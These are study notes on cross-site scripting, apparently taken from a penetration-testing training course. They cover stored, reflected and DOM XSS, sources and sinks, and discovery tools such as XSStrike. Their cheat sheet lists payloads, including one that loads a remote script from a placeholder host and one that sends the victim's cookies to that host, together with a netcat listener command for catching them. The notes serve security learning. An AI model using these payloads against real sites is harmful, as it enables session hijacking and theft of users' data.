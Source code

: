 # Cross Site Scripting (XSS) Notes

Execution of JavaScript code in an input field. Inherently a client focused vulnerability and can be equated to a medium risk.

|Type| 	Description|
|:----|:----|
|Stored (Persistent) XSS 	|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS 	|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS 	|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Cheat Sheet

|Code 	|Description|
|:----|:----|
|XSS| Payloads 	|
|<script>alert(window.origin)</script> 	|Basic XSS Payload|
|<plaintext> |	Basic XSS Payload|
|<script>print()</script> |	Basic XSS Payload|
|<img src="" onerror=alert(window.origin)> 	|HTML-based XSS Payload|
|<script>document.body.style.background = "#141d2b"</script> 	|Change Background Color|
|<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script> |	Change Background Image|
|<script>document.title = 'HackTheBox Academy'</script> 	|Change Website Title|
|<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script> 	|Overwrite website's main body|
|<script>document.getElementById('urlform').remove();</script> 	|Remove certain HTML element|
|<script src="http://OUR_IP/script.js"></script>| 	Load remote script|
|<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 	|Send Cookie details to us
Commands 	|
|python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 	|Run xsstrike on a url parameter|
|sudo nc -lvnp 80 	|Start netcat listener|
|sudo php -S 0.0.0.0:80 	|Start PHP server|


## Stored XSS

If the value gets stored in say the DB and is pulled up for any user it's stored.

Typical payload
```
<script>alert('1')</script>
```

## Reflected XSS

Only displayed for the current user, usually from input placed in. Perfect for phishing or csrf type of attacks.

Display cookie values

```
<script>alert(document.cookie)</script>
```

## DOM XSS

While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript. DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

For DOM XSS there are two definitions to understand. The `Source` is the JavaScript object that takes the user input, and it can be any input parameter. The `Sink` is the function that writes the user input to a DOM Object. If the Sink doesn't properly sanitize the input we could get XSS. Common DOM objects:
- document.write()
- DOM.innerHTML
- DOM.outerHTML

JQuery functions that write to the DOM:
- add()
- after()
- append()

Other payload

```
<img src="" onerror=alert(window.origin)>
```

## XSS Discovery 

### Automated

We can use automated tools like Nessus, Burp Pro, or ZAP

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try XSS Strike by cloning it to our VM with git clone

```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

### Manual

Payload lists: 
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [xss-payload-list](https://github.com/payloadbox/xss-payload-list)

Using fuzzers like ffuf we can take these lists and test parameters like this.


### Code Review

Reviewing code would be the quickest way to check, but requires access to the code for it to work. 

